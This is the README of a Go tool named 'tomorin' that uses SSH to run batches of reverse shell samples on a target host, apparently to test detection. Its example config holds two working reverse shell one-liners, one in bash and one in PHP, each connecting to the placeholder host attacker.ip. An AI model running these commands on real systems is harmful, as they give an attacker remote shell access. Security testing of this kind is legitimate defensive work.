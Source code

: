 # tomorin 批量执行反弹 Shell 样本

## Build

```bash
go build -o ./bin/tomorin
```

## Usage

```
ubuntu@VM-0-5-ubuntu:~/source/tomorin$ ./bin/tomorin
Run multiple reverse shell samples

Usage:
  tomorin [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  deps        Create a script to check dependencies
  help        Help about any command
  run         Run reverse shell samples on the target

Flags:
  -h, --help   help for tomorin

Use "tomorin [command] --help" for more information about a command.
```

编写 `config.yml`，把反弹Shell样本写入 `samples` 字段，把依赖项写入 `depends` 字段，比如

```yaml
depends:
- php
samples:
- name: 001
  script: bash -i >& /dev/tcp/attacker.ip/4242 0>&1
- name: 002
  script: php -r '$sock=fsockopen("attacker.ip",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

先生成一个检查依赖的脚本
```bash
./bin/tomorin deps -c config.yml
```

把生成的脚本 `check-deps` 复制到目标机器上执行。工具的实现原理是从当前机器SSH到目标机器上执行样本，所以需要目标机器安装SSH Server。

> 目前还没有反弹shell server的功能，所以需要用nc拉起来单独的server。

确认所有依赖都无误之后，执行所有反弹Shell样本

```bash
./bin/tomorin run -c config.yml -t ubuntu@attacker.ip
```

## TODO

- [ ] Reverse shell server
    - [ ] TCP
    - [ ] UDP
